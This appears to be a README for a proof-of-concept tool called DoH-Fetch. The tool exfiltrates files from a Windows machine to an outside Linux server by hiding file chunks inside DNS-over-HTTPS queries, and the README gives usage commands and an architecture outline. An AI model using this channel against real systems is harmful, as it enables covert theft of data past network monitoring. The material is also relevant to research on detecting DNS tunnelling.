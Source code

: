 # DoH-Fetch
Simple proof of concept project to exfiltrate files via DoH

# Usage
```bash
# server
sudo systemctl stop systemd-resolved.service
sudo python3 dnspad.py
# files are stored in directory: files/<date>_combined.bin
```
```powershell
# client
.\fetch.exe -f '.\Desktop\test.xlsx'
```
# Architecture
Client (C#) - fetch.exe - ran on the Windows machine
1. Disassemble file for chunks
2. Create HTTPS requests with DNS query inside with chunks 

Server (Python) - dnspad.py  - ran on the Linux server machine (public IP + domain)
0. Stop services running on port 53 (internet access)
1. Run DNS server on port 53
2. While getting DNS queries assemble chunks into a file
